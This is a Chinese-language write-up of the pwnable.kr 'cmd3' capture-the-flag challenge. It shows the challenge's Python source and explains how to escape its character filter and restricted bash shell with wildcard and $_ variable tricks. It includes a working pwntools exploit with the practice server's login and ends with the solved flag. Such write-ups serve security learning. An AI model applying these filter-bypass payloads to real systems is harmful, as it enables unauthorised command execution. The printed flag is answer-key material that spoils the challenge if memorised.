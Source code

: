```yaml
---
title: pwnable.kr-cmd3
date: 2018-07-11 12:18:00
tags: [pwnable.kr,PWN]
categories: CTF
---
```

# 前言
这是`cmd2`的升级版，题目做了很多限制，我也是花了好长时间才想出来。
# 分析
题目给出了`cmd3.py`的源码
```python
#!/usr/bin/python
import base64, random, math
import os, sys, time, string
from threading import Timer

def rstring(N):
	return ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(N))

password = rstring(32)
filename = rstring(32)

TIME = 60
class MyTimer():
	global filename
        timer=None
        def __init__(self):
                self.timer = Timer(TIME, self.dispatch, args=[])
                self.timer.start()
        def dispatch(self):
                print 'time expired! bye!'
		sys.stdout.flush()
		os.system('rm flagbox/'+filename)
                os._exit(0)

def filter(cmd):
	blacklist = '` !&|"\'*'
	for c in cmd:
		if ord(c)>0x7f or ord(c)<0x20: return False
		if c.isalnum(): return False
		if c in blacklist: return False
	return True

if __name__ == '__main__':
	MyTimer()
	print 'your password is in flagbox/{0}'.format(filename)
	os.system("ls -al")
	os.system("ls -al jail")
	open('flagbox/'+filename, 'w').write(password)
	try:
		while True:
			sys.stdout.write('cmd3$ ')
			sys.stdout.flush()
			cmd = raw_input()
			if cmd==password:
				os.system('./flagbox/print_flag')
				raise 1
			if filter(cmd) is False:
				print 'caught by filter!'
				sys.stdout.flush()
				raise 1

			os.system('echo "{0}" | base64 -d - | env -i PATH=jail /bin/rbash'.format(cmd.encode('base64')))
			sys.stdout.flush()
	except:
		os.system('rm flagbox/'+filename)
		os._exit(0)
```
从源码中可以看出一下限制：
 - 程序使用了一个过滤函数`filter`。该函数不允许输入中带有`0-9a-zA-Z`和`` !&|"\'*`的字符，并且输入必须在可打印字符的范围内。
 - 通过过滤函数的检查后，输入会被`base64`编码再传入`os.system`函数执行命令。所以这里也无法命令注入。
 - 程序使用`env`命令重写了`PATH`变量开启了新的命令执行环境，并且使用`/bin/rbash`（受限制shell）来执行输入的命令。
题目需要绕过这些限制并读取到`password`然后提交即可getfalg。
先执行一下程序（注意先阅读readme）
```
cmd3@ubuntu:~$ nc 0 9023
total 5268
drwxr-x---  5 root cmd3_pwn    4096 Mar 15  2016 .
drwxr-xr-x 87 root root        4096 Dec 27  2017 ..
d---------  2 root root        4096 Jan 22  2016 .bash_history
-rwxr-x---  1 root cmd3_pwn    1421 Mar 11  2016 cmd3.py
drwx-wx---  2 root cmd3_pwn   24576 Jul 10 20:07 flagbox
drwxr-x---  2 root cmd3_pwn    4096 Jan 22  2016 jail
-rw-r--r--  1 root root     5345137 Jul 10 20:09 log
-rw-r-----  1 root root         764 Mar 10  2016 super.pl
total 8
drwxr-x--- 2 root cmd3_pwn 4096 Jan 22  2016 .
drwxr-x--- 5 root cmd3_pwn 4096 Mar 15  2016 ..
lrwxrwxrwx 1 root root        8 Jan 22  2016 cat -> /bin/cat
lrwxrwxrwx 1 root root       11 Jan 22  2016 id -> /usr/bin/id
lrwxrwxrwx 1 root root        7 Jan 22  2016 ls -> /bin/ls
your password is in flagbox/KG3TSCVOPHSPINJD1N3MOD3T637CLX5L
cmd3$
```
可以看到我们只能执行`jail`目录下的三个程序，其他程序由于需要跨目录执行，必须使用`/`符号，然而在`/bin/rbash`中是不允许命令中带有`/`符号的（关于受限制shell可以参考[rbash - 一个受限的Bash Shell用实际示例说明](https://www.howtoing.com/rbash-a-restricted-bash-shell-explained-with-practical-examples/)）。对于该题目来说只需要执行`cat flagbox/KG3TSCVOPHSPINJD1N3MOD3T637CLX5L`获得password即可。但是要执行该命令需要考虑绕过空格和字母数字，因为这些字符无法通过`filter`函数。接下来只要绕过这些即可。
1. 绕过空格。对于`cat`命令，可以使用`<`符号来代替空格。也可使用其他方法，参考[linux下不用空格执行带参数的5种姿势](https://www.cnblogs.com/sevck/p/6072721.html)。
2. 绕过字符数字。要想绕过最常用最重要的字母数字，必须借用已经有的字母数字。在linux下有很多通配符可以用来指代某些文件，`*`符号被过滤了可以使用`?`（表示该位置必有一个字符）来指代。例如，要指代`jail/cat`可以输入`????/???`即可。当然，如果出现了指代多个文件或目录的情况它一般指代`ls`命令排序后的第一个。但是，对于受限制shell来说使用上面指代的话还是会出现`/`符号导致无法执行，我们必须执行`cat`而不是用路径指代它。这时，需要了解`$_`变量，该变量在shell中指代上次执行的命令，这样我们可以先使用上面的方式执行一遍，然后操作`$_`变量获取它的子串`cat`即可。可以输入`????/???;${__=${_#?????}};`来将`cat`保存在`$___`变量中。对于linux下的环境变量的操作可以参考[https://blog.csdn.net/number_0_0/article/details/73291182](https://blog.csdn.net/number_0_0/article/details/73291182)。要解决`flagbox/KG3TSCVOPHSPINJD1N3MOD3T637CLX5L`这样的长字符串，可以利用`cat`命令来从`/tmp/`（任何用户可读写）目录下的文件读取。例如，将长字符串写入`/tmp/__/1`中，然后执行`$(cat</???/__/?)`这样`$_`变量就存有长字符串了。
下面是exp
```python
from pwn import *

s = ssh(port=2222,user="cmd3",host="pwnable.kr",password="FuN_w1th_5h3ll_v4riabl3s_haha")
poc = "????/???;${__=${_#?????}};$($__</???/__/?);${___=$_};$__<$___"

r = s.run("nc 0 9023")
r.recvuntil("your password is in ")
data = r.recvline().rstrip() #get flagbox/......
s.run("mkdir /tmp/__")
s.run('echo "{0}" >/tmp/__/1'.format(data))
r.recvuntil("cmd3$ ")
r.sendline(poc)
tmp = r.recvuntil("cmd3$ ")
pwd = tmp[-38:-6]
print 'Get pwd: {0}'.format(pwd)
r.sendline(pwd)
print r.recvall()

```
```
root@kali:~/Desktop# python poc.py
[+] Connecting to pwnable.kr on port 2222: Done
[!] Couldn't check security settings on 'pwnable.kr'
[+] Opening new channel: 'nc 0 9023': Done
[+] Opening new channel: 'mkdir /tmp/__': Done
[+] Opening new channel: 'echo "flagbox/9E36W2ZIM8Y0I4GWLPMKPE1GAQPGCMFO" >/tmp/__/1': Done
Get pwd: 5AE535O9P84VCXKWS1PYYRRT8JLD3JQN
[+] Receiving all data: Done (54B)
[*] Closed SSH channel with pwnable.kr
Congratz! here is flag : D4ddy_c4n_n3v3r_St0p_m3_haha

[*] Closed SSH channel with pwnable.kr
[*] Closed SSH channel with pwnable.kr

```
# 总结
这道题目很有意思，主要使用linux下shell的知识，又学到了不少。